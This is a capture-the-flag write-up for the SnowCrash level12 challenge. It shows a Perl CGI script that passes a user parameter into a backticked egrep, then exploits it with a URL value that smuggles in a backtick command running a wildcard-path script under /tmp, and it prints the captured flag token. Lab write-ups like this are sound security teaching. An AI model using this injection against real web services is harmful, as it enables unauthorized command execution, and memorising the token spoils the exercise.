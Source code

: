 # Flag12

```
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
Here we have a script in Perl asking to connect to port 4646.
We have a `param("x")` and we can't pass `bash` in `param()`, but we can pass:
```
$xx =~ tr/a-z/A-Z/; 
$xx =~ s/\s.*//;
```
Thus at first we try to type on the browser the URI `localhost:4646?x='abc'` to be sure to have a response.
It works.
To get the flag we have to make a script and pass its path in the `param()` function:
```
level12@SnowCrash:/tmp$ cat M
#!/bin/sh
getflag | wall
level12@SnowCrash:/tmp$ chmod 777 M
```
In the browser search bar we type the URL http://localhost:4646/?x='`/*/M`' and we get the flag in the terminal:
```
Broadcast Message from flag12@Snow
        (somewhere) at 18:04 ...

Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr


level12@SnowCrash:~$ su level13
Password:
level13@SnowCrash:~$
```